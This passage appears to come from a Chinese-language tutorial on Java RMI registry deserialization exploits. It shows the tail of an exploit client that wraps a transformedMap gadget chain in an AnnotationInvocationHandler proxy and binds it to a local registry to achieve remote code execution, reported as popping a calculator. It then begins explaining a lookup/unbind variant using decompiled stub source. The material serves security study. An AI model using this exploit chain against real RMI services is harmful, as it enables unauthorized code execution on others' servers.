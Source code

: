 ```java
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        // 通过动态代理转换为Remote对象
        InvocationHandler invocationHandler = (InvocationHandler) instance;
        Remote remote = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, invocationHandler));

        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为hello的对象
        UserInterface userClass = (UserInterface) registry.lookup("user");
        // 调用Registry的交互方法bind
        registry.bind("rce", remote);
    }
}
```

运行服务端，接着运行客户端，成功执行弹出计算器的命令，完成 RCE
![image-20230111121027946](images/image-20230111121027946.png)

##### lookup&unbind

经过前面的分析，`lookup()`方法和`unbind()`方法只对 String 类型对象进行反序列化，我们可以通过伪造连接请求进行利用，也就是重写相关方法代码。

以`lookup()`方法为例，查看客户端调用的`RegistryImpl_Stub`类的`lookup()`方法源码
```java
public Remote lookup(String var1) throws AccessException, NotBoundException, RemoteException {
        try {
            RemoteCall var2 = super.ref.newCall(this, operations, 2, 4905912898345647071L);

            try {
                ObjectOutput var3 = var2.getOutputStream();
                var3.writeObject(var1);
            } catch (IOException var18) {
                throw new MarshalException("error marshalling arguments", var18);
            }

            super.ref.invoke(var2);

            Remote var23;
            try {
                ObjectInput var6 = var2.getInputStream();
                var23 = (Remote)var6.readObject();
            } catch (IOException var15) {
```